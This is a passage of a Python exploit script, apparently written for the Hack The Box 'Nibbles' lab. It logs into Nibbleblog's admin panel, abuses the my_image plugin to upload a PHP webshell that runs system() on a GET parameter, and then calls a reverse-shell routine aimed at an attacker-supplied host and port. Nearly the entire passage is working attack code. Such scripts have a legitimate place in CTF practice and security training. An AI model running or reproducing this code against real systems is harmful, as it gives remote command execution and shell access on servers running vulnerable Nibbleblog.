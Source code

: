 ```python
    else:
        raise Exception("\n[!] Credentials are NOT valid! :(")

def exploit(target, s):
    url = f"http://{target}/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image"

    files = {
    'plugin': (None, 'my_image'),
    'title': (None, 'My image'),
    'position': (None, '4'),
    'caption': (None, ''),
    'image': ('webshell.php', '<?php\n$cmd = system($_GET[\'fc8358bcf09e4b3947d1975622a9df14\']);\necho "<pre>" . $cmd . "</pre>";\n?>', 'application/x-php'),
    'image_resize': (None, '1'),
    'image_width': (None, '230'),
    'image_height': (None, '200'),
    'image_option': (None, 'auto')
    }

    response = s.post(url, files=files)
    if response.status_code == 200:
        print("\n[+] Webshell uploaded at '/nibbleblog/content/private/plugins/my_image/image.php'")
        return True
    else:
        raise Exception("\n[!] Couldn't upload the webshell! :(")

def set_arguments():
    parser = argparse.ArgumentParser(
        description="HTB Nibbles exploit"
    )
    parser.add_argument('-t', '--target', dest='target', required=True)
    parser.add_argument('-u', '--user', dest='user', required=True)
    parser.add_argument('-p', '--password', dest='password', required=True)
    parser.add_argument('--lhost', dest='lhost', required=True)
    parser.add_argument('--lport', dest='lport', default=4444, type=int)

    return parser.parse_args()

def main():
    try:
        args = set_arguments()
        session = login(args.target, args.user, args.password)
        exploit(args.target, session)
        rev_shell(args.target, args.lhost, args.lport)
        sys.exit(0)

    except Exception as e:
        print(e)

main()
```
